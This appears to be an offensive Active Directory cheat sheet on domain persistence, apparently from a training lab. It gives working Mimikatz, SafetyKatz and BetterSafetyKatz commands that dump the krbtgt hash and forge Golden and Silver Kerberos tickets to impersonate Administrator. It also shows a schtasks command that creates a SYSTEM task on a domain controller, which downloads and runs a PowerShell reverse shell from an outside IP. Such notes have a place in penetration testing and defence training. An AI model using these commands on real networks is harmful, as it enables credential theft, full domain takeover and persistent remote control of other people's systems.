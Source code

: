 
# Persistence

### Golden Ticket

- **Invoke-Mimikatz:**
```powershell
# Execute mimikatz on DC as DA to get hashes (especially the krbtgt hash)
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# Or use DCSync with SafetyKatz (this doesn't execute anything on DC and requires just permssion of AD replication, not full 
SafetyKatz "lsadump::dcsync /user:dcorp\krbtgt" "exit"

# Golden Ticket: use the hash from krbtgt to impersonate Administrator using pass-the-ticket technique). 
# Works until krbtgt password is changed two times. Ticket is valid for 10800 minutes (7 days). Can be more (10 years)
# It can impersonate any user in domain, not only administrator
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /aes256:XXX /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
# Or
BetterSafetyKatz "kerberos::golden /User:Administrator /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /aes256:XXX  /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
# Instead of /ptt (which passes the ticket to the interactive session), /ticket can be used to save the ticket to a file (to be reused)

```


### Silver Ticket

```powershell
# Silver ticket is about Service Acccounts (SPN) and TGS
# It needs the Hash of the SPN (AES Key)
# if a machine is compromised, it's possible to get its own account hash (in this case the persistence is valid for 30 days, he rotation period of computer account password)
# Since the PAC is usually not verified it's possible to impersonate various service account having computer account hash
# TGS owned    -> Service usable
# HOST                         ->  scheduled task
# HOST + RPPCSS                ->  Wmi
# HOST + HTTP                  -> WinRM
# HOST + HTTP +(WSMAN + RPCSS) -> WinRM
# RPCSS + LDAP + CIFS          -> Windows RSAT

Invoke-Mimikatz -Command '"kerberos::golden /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:XXXX /user:Administrator  /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
BetterSafetyKatz "kerberos::golden /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:XXXX /user:Administrator  /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

```
```
# Create a Scheduled task "STCheck" (download and execute a Powershell - Specifically a reverse shell)
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (iwr http://172.16.100.95/Tools/Invoke-PowerShellTcp.ps1 -UseBasicParsing)'"```
```
# Execute Scheduled task (download and execute a Powershell - Specifically a reverse shell)